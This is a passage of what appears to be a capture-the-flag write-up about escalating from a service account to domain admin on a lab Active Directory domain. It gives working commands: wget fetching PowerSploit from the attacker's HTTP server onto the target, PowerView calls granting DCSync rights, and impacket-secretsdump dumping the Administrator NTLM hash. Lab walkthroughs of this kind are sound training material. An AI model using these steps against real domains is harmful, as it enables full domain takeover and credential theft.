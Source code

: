 Bloodhound shows strightforward path from `svc-alfresco` (owned) to `Administartor`.
![Bloodhound](images/bloodhound.png)

* `svc-alfresco@htb.local` is indirect memeber of `account operators@htb.local` which has `GenericAll` over `exchange windows permissions@htb.local`. Meaning we could abuse this to add `svc-alfresco@htb.local` to this group.
* Then `exchange windows permissions@htb.local` has `WriteDacl` over `htb.local`. We could use this to add `DCSync` privileges to `svc-alfresco@htb.local` and use `impacket-secretsdump` to dump NTLM hashes.

Let's download `PowerSploit` to target.
```
┌──(magicrc㉿perun)-[~/Tools/PowerSploit]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

And use it to exploit AD misconfiguration.
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> wget http://10.10.14.212:8000/PowerSploit.zip -OutFile C:\Users\svc-alfresco\Documents\PowerSploit.zip
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Expand-Archive -Path "C:\Users\svc-alfresco\Documents\PowerSploit.zip" -DestinationPath "C:\Users\svc-alfresco\Documents\PowerSploit"
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd PowerSploit\Recon
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\PowerSploit\Recon> . .\PowerView.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\PowerSploit\Recon> Add-DomainGroupMember -Identity 'EXCHANGE WINDOWS PERMISSIONS' -Members 'svc-alfresco'; $Password = ConvertTo-SecureString 's3rvice' -AsPlainText -Force; $Cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco', $Password); Add-DomainObjectAcl -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\svc-alfresco' -Rights DCSync -Credential $Cred
```

With `DCSync` in place for `svc-alfresco` let's dump NTLM hashes.
```
┌──(magicrc㉿perun)-[~/Tools]
└─$ impacket-secretsdump -just-dc htb.local/svc-alfresco:s3rvice@htb.local
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```
